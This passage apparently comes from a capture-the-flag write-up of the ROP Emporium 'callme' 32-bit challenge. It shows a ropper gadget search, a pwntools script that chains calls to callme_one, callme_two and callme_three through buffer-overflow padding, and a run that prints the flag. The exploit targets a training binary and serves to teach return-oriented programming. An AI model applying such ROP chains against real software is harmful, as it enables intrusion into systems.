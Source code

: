```
       +
Addr of callme_three
       +
Addr for ret function
       +
Args for function
```

For ret function we use the address of ```pop esi; pop edi; pop ebp; ret``` gadget

```c
ra@moni:~/callme32$ ropper -f callme32  --search "pop esi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop esi

[INFO] File: callme32
0x080487f9: pop esi; pop edi; pop ebp; ret;
```

So our address of ret gadget is ```0x080487f9```

Lets craft an exploit for this,

```c
ra@moni:~/callme32$ cat exp32.py
from pwn import *
arg1=p32(0xdeadbeef)
arg2=p32(0xcafebabe)
arg3=p32(0xd00df00d)
args=arg1+arg2+arg3
callme_one=p32(0x80484f0)
callme_two=p32(0x8048550)
callme_three=p32(0x80484e0)
exit=p32(0x080487f9)
junk='A'*44
buff=""
buff+=junk
buff+=callme_one
buff+=exit
buff+=args
buff+=callme_two
buff+=exit
buff+=args
buff+=callme_three
buff+=exit
buff+=args
print(buff)
```

Lets try running our exploit,

```c
ra@moni:~/callme32$ python2 exp32.py  | ./callme32
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
